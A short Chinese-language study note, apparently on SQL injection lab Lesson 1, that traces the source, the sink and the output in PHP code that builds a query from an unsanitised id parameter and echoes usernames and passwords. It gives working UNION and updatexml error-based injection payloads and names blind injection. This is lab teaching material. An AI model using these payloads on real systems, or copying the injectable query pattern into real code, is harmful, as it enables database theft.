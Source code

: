 # lesson1

## ​

* **source**： $\_GET\['id'\]

```php
if(isset($_GET['id']))
$id=$_GET['id'];
```



* **sink**：select语句，where条件
  * 闭合形式：单引号

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```



* **output**:

```php
	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```

* union注入:  通过`$row`

  * 2，3点可控:  `index.php?id=0' union select 1,user(),3 --+`



* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：
  * 时间
  * boolean



